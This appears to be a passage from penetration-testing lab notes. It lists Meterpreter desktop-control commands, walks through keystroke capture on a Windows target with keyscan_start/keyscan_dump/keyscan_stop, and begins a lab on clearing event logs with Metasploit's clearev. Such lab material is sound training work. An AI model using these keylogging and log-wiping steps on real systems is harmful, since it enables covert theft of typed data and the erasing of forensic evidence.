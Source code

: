 ```bash
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components
```

- Open a `Notepad` session on the Target machine.
- On the Attacker machine, start the keystroke capture

```bash
keyscan_start
	Starting the keystroke sniffer ...
```

- Input some text into the target machine
- Back on the attacker machine, capture the entered data

```bash
keyscan_dump
```

![keyscan_dump](.gitbook/assets/image-20230419231942667.png)

- Stop the sniffer

```bash
keyscan_stop
```

------

## Lab 9 - Clearing Event Logs

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.26.66`
> - Metasploit **clearev** `Meterpreter` option

```bash
service postgresql start && msfconsole -q
```
